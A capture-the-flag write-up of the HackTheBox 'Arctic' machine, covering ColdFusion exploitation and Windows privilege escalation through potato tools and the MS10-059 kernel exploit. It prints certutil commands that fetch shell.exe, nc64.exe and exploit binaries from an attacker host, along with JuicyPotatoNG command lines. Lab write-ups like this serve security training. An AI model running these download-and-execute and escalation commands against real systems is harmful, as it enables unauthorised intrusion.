








# Arctic -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Arctic (HackTheBox)
**Author:** dsec
**Date:** 2025-03-12

---

## TL;DR

### ColdFusion on port 8500. Used a public exploit for initial shell. SeImpersonate potato exploits all failed due to RPC port issues, had to fall back to a kernel exploit (MS10-059 Chimichurri) for SYSTEM.
---
## Target info

- Host: `10.129.78.35`
- Services discovered via nmap
---
## Enumeration

```bash
sudo nmap -Pn -n 10.129.78.35 -sCV -p- --open -vvv
```



---
## ColdFusion exploit

Found a ColdFusion exploit on Exploit-DB (50057). Edited listener/target IPs:





---
## Privilege escalation -- failed potatoes

Transferred tools:

```bash
certutil -split -urlcache -f http://10.10.14.240/JuicyPotatoNG.exe
certutil -split -urlcache -f http://10.10.14.240/shell.exe
certutil -split -urlcache -f http://10.10.14.240/PrintSpoofer64.exe
```



Tried JuicyPotatoNG with multiple CLSIDs and ports -- all **failed**:

```bash
.\JuicyPotatoNG.exe -t * -p .\shell.exe -c "{69AD4AEE-51BE-439b-A92C-86AE490E8B30}" -l 8500
.\JuicyPotatoNG.exe -t * -p .\shell.exe -c "{4991d34b-80a1-4291-83b6-3328366b9097}"
.\JuicyPotatoNG.exe -t * -p .\shell.exe -c "{659cdea7-489e-11d9-a9cd-000d56965251}"
```



Tried RoguePotato and GodPotato too:

```bash
certutil -split -urlcache -f http://10.10.14.240/RoguePotato.exe
certutil -split -urlcache -f http://10.10.14.240/nc64.exe
certutil -split -urlcache -f http://10.10.14.240/GodPotato-NET4.exe
```

Checked netstat and running processes:





None of the SeImpersonate exploits worked because of RPC port errors.

---
## Kernel exploit -- MS10-059

Had to use a kernel exploit. Checked `systeminfo` -- no hotfixes listed, so kernel exploits are worth trying.

Used MS10-059 (Chimichurri.exe):

```bash
certutil -split -urlcache -f http://10.10.14.240/Chimichurri.exe
```



---
## Lessons & takeaways

- When all potato exploits fail, check `systeminfo` for missing hotfixes and try kernel exploits
- MS10-059 (Chimichurri) works on older unpatched Windows systems
- No hotfixes listed in systeminfo = good candidate for kernel exploits
